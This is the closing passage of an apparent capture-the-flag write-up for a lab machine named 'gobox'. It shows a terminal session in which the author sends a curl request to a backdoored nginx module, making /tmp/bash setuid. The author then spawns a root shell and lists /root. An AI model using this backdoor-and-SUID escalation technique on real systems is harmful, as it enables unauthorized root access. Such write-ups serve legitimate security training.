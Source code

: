 www-data@gobox:/usr/lib/nginx/modules$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@gobox:/usr/lib/nginx/modules$  curl 'http://127.0.0.1:8000?ippsec.run[chmod%204777%20%2ftmp%2fbash]'
<.0.1:8000?ippsec.run[chmod%204777%20%2ftmp%2fbash]'
curl: (52) Empty reply from server
www-data@gobox:/usr/lib/nginx/modules$ /tmp/bash -p
/tmp/bash -p
bash-5.0# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
iptables.sh  root.txt  snap
bash-5.0# 
```

With some trial and error i got it and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
